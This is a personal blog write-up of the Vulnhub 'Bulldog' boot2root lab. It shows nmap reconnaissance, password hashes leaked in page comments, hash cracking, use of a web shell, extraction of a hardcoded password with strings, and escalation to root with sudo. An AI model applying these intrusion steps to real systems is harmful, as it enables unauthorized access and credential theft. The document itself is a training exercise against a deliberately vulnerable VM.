 ```yaml
---
layout: post
title: Bulldog
---
```


Hello! I found some time to break another boot2root. A usual, it's another one from vulnhub. It's titled "Bulldog":

>Bulldog Industries recently had its website defaced and owned by the malicious German Shepherd Hack Team. Could this mean there are more vulnerabilities to exploit? Why don't you find out? :)
This is a standard Boot-to-Root. Your only goal is to get into the root directory and see the congratulatory message, how you do it is up to you!
>Difficulty: Beginner/Intermediate, if you get stuck, try to figure out all the different ways you can interact with the system. That's my only hint ;)
>Made by Nick Frichette (frichetten.com) Twitter: @frichette_n

So, no flags this time. We're supposed to keep hacking until we gain root. It's not much to hack this time, but first things first. Time for some recon:

## Recon

```bash
# nmap 192.168.0.100 -p- -sT -sV -O -n

Starting Nmap 7.50 ( https://nmap.org ) at 2017-10-30 14:18 EDT
Nmap scan report for 192.168.0.100
Host is up (0.00078s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
23/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    WSGIServer 0.1 (Python 2.7.12)
8080/tcp open  http    WSGIServer 0.1 (Python 2.7.12)
MAC Address: 08:00:27:16:1D:5F (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There seems to be 3 working services on the machine: ssh on non-stadard port (23) and two HTTP servers. Quick clicking through websites suggests that both servers serve excactly same sites. Might be wrong but it didn't matter later on. Pages didn't give much useful info, so I fired up dirbuster. Dirbuster revealed an /admin loging page and led to an interesting, "hidden" page /dev. It not only gave some login ideas for enumeration but also hashes of their passwords:

```html
<!--Need these password hashes for testing. Django's default is too complex-->
<!--We'll remove these in prod. It's not like a hacker can do anything with a hash-->
Team Lead: alan@bulldogindustries.com<br><!--6515229daf8dbdc8b89fed2e60f107433da5f2cb-->
Back-up Team Lead:
william@bulldogindustries.com<br><br><!--38882f3b81f8f2bc47d9f3119155b05f954892fb-->
Front End: malik@bulldogindustries.com<br><!--c6f7e34d5d08ba4a40dd5627508ccb55b425e279-->
Front End: kevin@bulldogindustries.com<br><br><!--0e6ae9fe8af1cd4192865ac97ebf6bda414218a9-->
Back End: ashley@bulldogindustries.com<br><!--553d917a396414ab99785694afd51df3a8a8a3e0-->
Back End: nick@bulldogindustries.com<br><br><!--ddf45997a7e18a25ad5f5cf222da64814dd060d5-->
Database: sarah@bulldogindustries.com<br><!--d8b8dd5e7f000b8dea26ef8428caf38c04466b3e-->
```

/Dev page also links to /dev/shell page, which needs some authentication:
```html
<center><h2 style="color:white">Please authenticate with the server to use Web-Shell</h2></center>
```
 So, after identifing password hashes as SHA-1 I tried to reverse them. The easiest one turned out to be nick's password as it was simply 'bulldog'.

## Attack

Using these credentials on /admin page allowed us to login, unfortunately nick can't do virtually anything there. I had more luck on /dev/shell page. Since I was authorized as nick it allowed me to use a simple, restricted shell:

![Webshell]({{ site.url }}/images/bulldog/webshell.png)

After poking around the system for a while I found an interesting program customPermissionApp:

```
Command : ls -al /home/bulldogadmin/.hiddenadmindirectory

total 24
drwxrwxr-x 2 bulldogadmin bulldogadmin 4096 Sep 21 00:44 .
drwxr-xr-x 5 bulldogadmin bulldogadmin 4096 Sep 21 00:45 ..
-rw-r--r-- 1 bulldogadmin bulldogadmin 8728 Aug 26 03:18 customPermissionApp
-rw-rw-r-- 1 bulldogadmin bulldogadmin  619 Sep 21 00:44 note
```

Command:
```
Command : cat /home/bulldogadmin/.hiddenadmindirectory/customPermissionApp | base64
```
allowed me to simply download the app to my machine. The app itself seems to spawn root shell, which of course would be useful if we found a way to run it on a victim machine. But there is more to it. String command reveals a password hiddend inside the app:
```
# strings app
...
SUPERultH
imatePASH
SWORDyouH
CANTget
...
```

After few attempts to connect to SSH I find out that SUPERutlimatePASSWORDyouCANTget is a pass to django user. After connecting we can get root by simply calling sudo -i:
```
$ sudo -i
sudo -i
[sudo] password for django: SUPERultimatePASSWORDyouCANTget

root@bulldog:~# ls
ls
congrats.txt
root@bulldog:~# cat congrats.txt
cat congrats.txt
Congratulations on completing this VM :D That wasn't so bad was it?

Let me know what you thought on twitter, I'm @frichette_n

As far as I know there are two ways to get root. Can you find the other one?

Perhaps the sequel will be more challenging. Until next time, I hope you enjoyed!
```

What is another way to get root Author mentions? My idea would be to use the webshell to modify the webapp to serve reverse shell, which could be used to run the customPermissionApp on a victim machine.

## Summary

Bulldog turned out to be quite short and kind of easy boot2root. I hope my writeup can help someone stuck at any part of the challenge. Also, as usual kudos to machine's Author ;)

